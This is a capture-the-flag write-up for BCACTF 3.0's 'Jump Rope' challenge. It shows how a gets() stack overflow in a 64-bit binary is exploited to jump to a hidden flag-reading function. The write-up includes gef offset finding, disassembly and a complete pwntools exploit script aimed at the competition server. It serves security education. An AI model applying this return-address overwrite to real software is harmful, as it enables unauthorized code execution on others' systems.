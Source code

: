 # BCACTF 3.0: Jump Rope


## Description

Here at BCA, we take fitness very seriously. Lately, our gym teachers have been stressing jumproping as cardio... I'm not too good at it yet though, but I think you might be able to show me how it's done!

I did download the challenge files 

First lets run checksec 

```sh
Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX enabled : will prevent shellcode exectusion

Running the binary

!['challenge'](./challenge.png)



After seeing the souce code we have : 


```c
void a() {
    FILE *fptr = fopen("flag.txt", "r");
    char flag[100];
    if(fptr == NULL){
        printf("\nLooks like we've run out of jump ropes...\n");
        printf("Challenge is misconfigured. Please contact admin if you see this.\n");
    }

    fgets(flag, sizeof(flag), fptr);
    puts(flag);
}
```

This function will give us the flag if we call it, but as we can see its not called any where in the program, so our main goal is to call this function


Next we have this function :

```c
void jumprope(){
    char arr[500];
    printf("\nBetter start jumping!\n");
    gets(arr);
    printf("Woo, that was quite the workout wasn't it!\n");
}
```

We know that the dangerous part here is :

```c
 gets(arr);
```
 

We will use cyclic from gef tools to know the exact offset, as we can see in the source code the buffer size is 500 so we will use a value above that

cyclic 600 -n 8


-n 8 : cause we have a 64 bits 

```sh
$rsp   : 0x007fffffffdce8  →  "paaaaaacqaaaaaacraaaaaacsaaaaaactaaaaaacuaaaaaacva[...]"
$rbp   : 0x636161616161616f ("oaaaaaac"?)
$rsi   : 0x1               
$rdi   : 0x007ffff7f9fa70  →  0x0000000000000000
$rip   : 0x00000000401259  →  <jumprope+61> ret 
```

$rip (64-bit Instruction Pointer) as we can see here we didn't override it, well 64 bits binaries have some differences, it will not allow a malformed address to go into the stack in the first place


Lets find the offset :

```sh
gef➤  pattern offset $rsp
[+] Searching for '$rsp'
[+] Found at offset 520 (little-endian search) likely
```

In order to exploit this we need


'A' * 520  +  the address of the function where we want our instruction pointer to point to.


the address of the a() function we can get it from gdb by typing :

```sh
gef➤  disas a
Dump of assembler code for function a:
   0x00000000004011b6 <+0>:	endbr64 
   0x00000000004011ba <+4>:	push   rbp
   0x00000000004011bb <+5>:	mov    rbp,rsp
   0x00000000004011be <+8>:	sub    rsp,0x70
   0x00000000004011c2 <+12>:	lea    rsi,[rip+0xe3f]        # 0x402008
   0x00000000004011c9 <+19>:	lea    rdi,[rip+0xe3a]        # 0x40200a
   0x00000000004011d0 <+26>:	call   0x4010c0 <fopen@plt>
   0x00000000004011d5 <+31>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004011d9 <+35>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004011de <+40>:	jne    0x4011f8 <a+66>
   0x00000000004011e0 <+42>:	lea    rdi,[rip+0xe31]        # 0x402018
   0x00000000004011e7 <+49>:	call   0x401080 <puts@plt>
   0x00000000004011ec <+54>:	lea    rdi,[rip+0xe55]        # 0x402048
   0x00000000004011f3 <+61>:	call   0x401080 <puts@plt>
   0x00000000004011f8 <+66>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004011fc <+70>:	lea    rax,[rbp-0x70]
   0x0000000000401200 <+74>:	mov    esi,0x64
   0x0000000000401205 <+79>:	mov    rdi,rax
   0x0000000000401208 <+82>:	call   0x4010a0 <fgets@plt>
   0x000000000040120d <+87>:	lea    rax,[rbp-0x70]
   0x0000000000401211 <+91>:	mov    rdi,rax
   0x0000000000401214 <+94>:	call   0x401080 <puts@plt>
   0x0000000000401219 <+99>:	nop
   0x000000000040121a <+100>:	leave  
   0x000000000040121b <+101>:	ret    
End of assembler dump.
```

This is the address of a() 

```python
0x00000000004011b6 <+0>:	endbr64 
```



So the exploit will be : 


```python
import pwn
import argparse

parser = argparse.ArgumentParser()

parser.add_argument("-r", "--remote", help="perform the attack on the remote target",
                    action="store_true")
args = parser.parse_args()
if args.remote :
    p = pwn.remote('bin.bcactf.com', 49177)
else:
    p = pwn.process("./jumprope")


## cause of the endbr64 (google it) this didnt work when i tried this localy but i it work on the remote server
#new_rip = pwn.p64(0x00000000004011b6)
 
new_rip = pwn.p64(0x00000000004011bb) # *a+5
 
offset = 520  

payload = b"".join(
    [
        b"A" * offset,
        new_rip
    ]
)
  
print(p.recvuntil('jumping!'.encode()).decode('utf-8'))

p.sendline(payload)

print(p.recv().decode('utf-8'))

p.interactive()
```

## Demo

!['demo'](exploit.gif)

I didn't solve this challenge during the competition because of the "endbr64" but the  exploit does work on the remote server except i didn't try that only after the CTF did end 💢😤


The lesson learned from here is that you should run your exploit on the remote target even if it's not working locally 🤓


